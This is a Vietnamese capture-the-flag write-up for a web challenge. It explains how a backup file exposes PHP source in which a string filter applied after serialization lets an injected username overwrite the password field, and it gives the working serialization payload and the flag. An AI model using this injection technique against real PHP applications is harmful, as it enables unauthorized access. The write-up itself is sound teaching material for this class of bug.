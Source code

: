 # Web02

Đề cho trang login 
![](images/login.png)

Khi đăng nhập với tài khoản bất kì `admin:admin`
Thì web luôn trả về `wrong password`

![](images/wrong.png)

Bài web không đưa thêm bất kì gợi ý nào 
có lỗi backup file tại trang home.php khi thêm kí tự `'~'`

![](images/backup.png)

```php
<?php
error_reporting(0);
include('flag.php');
function fil($str){
    return str_replace("Isp","IspClub",$str);
}
class x{
    public $username;
    public $password;
    public function __construct($username,$password){
        $this->username=$username;
        $this->password=$password;
    }
    public function __wakeup(){
        if($this->password=='ispclub'){
	    global $flag;
            echo $flag;
        }
        else{
            echo "Wrong Password!";
        }
    }
}
$username=$_POST['username'];
$password=1337;
$ser=fil(serialize(new x($username,$password)));
$o=unserialize($ser);
```
Mội bài về lỗi Serialize
Ở đây chỉ nhận được username từ người dùng còn password mặc định sẽ là 1337

Hàm __wakeup() là 1 magic method
Hàm unserialize thực thi sẽ gọi đến hàm __wakeup(). Để lấy được flag thì bắt buộc `password=ispclub`

Biến ser được gắn với chuỗi serialize của class x trước đó đi qua hàm fil
>`Lỗi nằm tại hàm fil` 

Hàm fil có thể làm tăng độ dài của chuỗi, ghi đề được password=1337 sau khi unserialize

![](images/vd1.png)

Kết quả nhận được

![](images/kq.png)

Độ dài của biến username="Isp" là 3 nhưng sau khi đi qua fil biến username="IspClub" là 7 nhưng độ dài trong chuỗi serialize vẫn là 3

Từ đây tính toán độ dài chuỗi 

Chuỗi: `"password";s:7:"ispclub";}` có độ dài là 32
Chuỗi: `Isp` có độ dài 3
Chuỗi: `IspClub` có độ dài là 7
7*x=3*x+32 tìm được độ dài Isp lặp lại 8 lần
`Payload: IspIspIspIspIspIspIspIsp";s:8:"password";s:7:"ispclub";}`

![](images/final.png)
Kêt quả

![](images/kq2.png)

Biến username trong chuỗi serialize lúc này đã được gán thành `IspClubIspClubIspClubIspClubIspClubIspClubIspClubIspClub` và biến password được gán thành `ispclub` sau khi hàm unserialize thực thi

Ví dụ sau khi unserialize

![](images/unser.png)

Kết quả

![](images/kqser.png)

![](images/flag.png)

>Flag: ISPCTF{fca9a3569e743022a0210e3229289ecc}


